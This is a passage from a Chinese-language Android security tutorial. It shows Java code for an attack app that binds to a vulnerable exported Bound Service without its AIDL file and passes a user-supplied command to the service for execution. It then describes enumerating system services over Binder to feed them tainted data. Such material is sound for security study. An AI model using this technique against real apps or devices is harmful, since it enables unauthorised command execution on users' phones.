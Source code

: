     }
    

最后，编写攻击app的Activity，在其中bind有漏洞的Service

    
    
    #!java
    mServiceConnection = new myServiceConnection();
    Intent i = new Intent();
    i.setClassName("com.jakev.boundserver", "com.jakev.boundserver.ITestService");
    boolean ret = bindService(i, mServiceConnection, BIND_AUTO_CREATE);
    

在ServiceConnection的回调函数中调用a方法

    
    
    #!java
    public void onServiceConnected(ComponentName name, IBinder service) {
        Log.d(TAG, "OnServiceConnected ");
        String command = editCommand.getText().toString();
    
        try {
            a mTestService = Stub.asInterface(service);
            String result = mTestService.a(command);
            Log.d(TAG, "exec result is:" + result);
            txtResult.setText(result);
        } catch (RemoteException e) {
            e.printStackTrace();
        }
    
    }
    

攻击效果如下

![image](http://static.wooyun.org//drops/20160311/2016031110111445780316.png)

至此，就完成了不依赖于AIDL文件攻击Bound Service的过程。

# 0x05 攻击已注册的系统服务

* * *

通过adb shell service list可以查看在context
manager（或servicemanager）中注册的系统服务名称和IBinder接口。

![image](http://static.wooyun.org//drops/20160311/201603111011169397646.png)

这些服务也暴露了潜在的攻击面，可以编写客户端程序通过服务名获得Binder对象的引用，进而调用服务的功能或者传入污染的数据。

    
    
    #!java
    sp<IServiceManager> sm = defaultServiceManager();
    sp<IBinder> binder = sm->getService(String16("demo")); //demo is Service Name
    sp<IDemo> ServiceName = interface_cast<IDemo>(binder);
    
